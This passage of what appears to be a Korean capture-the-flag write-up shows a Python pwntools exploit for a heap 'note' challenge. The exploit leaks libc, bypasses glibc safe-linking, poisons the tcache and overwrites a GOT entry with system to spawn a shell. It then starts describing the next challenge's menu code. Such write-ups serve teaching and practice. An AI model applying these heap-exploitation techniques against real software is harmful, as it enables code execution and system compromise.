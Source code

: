 ##### ex.py
```python

def exploit(p):
    offset = 0x21a090 # strlen_evex@got

    for i in range(8):
        add(10+i,0x400,b"A"*0x10)
    for i in range(7): # fill tcache
        delete(11+i)
    delete(10) # free -> unsorted bin 
    show(10, 0) # main_arena leak
    libc_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x21ace0
    log.info("libc_base: 0x{:x}".format(libc_base))
    system = libc_base + libc.sym["system"]
    add(0, 0x10, b"/bin/sh\x00"*2) # chunk for printf("%s", '/bin/sh')
    add(1, 0x10, b"A"*0x10)
    add(2, 0x10, b"A"*0x10)
    delete(1)
    delete(2)

    show(2, 0) # bypass safe linking
    leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_ptr = decrypt(leak)
    log.info("heap_ptr: 0x{:x}".format(heap_ptr))
    edit(2, 0, p64(encrypt(libc_base+offset))*2) # tcache poisoning
    add(3, 0x10, "AAAAA")
    add(3, 0x10, p64(system)*2) # overwrite strlen_evx@got
    show(0,0) # trigger printf("%s", '/bin/sh')

    p.sendline("cat flag.txt")
    print(p.recv(0x100))
    p.interactive()
    return
```
#### h-note
h-babynote 문제를 읽으셨다면 파악할 수 있겠지만 해당 코드에서 delete 기능만 제거됐습니다.

```c
    while (1){
        menu();
        int choice;
        printf(">> ");
        scanf("%d", &choice);
        switch (choice){
            case 1:
                add();
                break;
            case 2:
                edit();
                break;
            case 3:
                show();
                break;
            case 4:
                exit(0);
                break;
            default:
                puts("Invalid choice");
                break;
        }
    }
```
일반적인 노트 문제와 같이 add, edit, show 메뉴가 주어집니다.
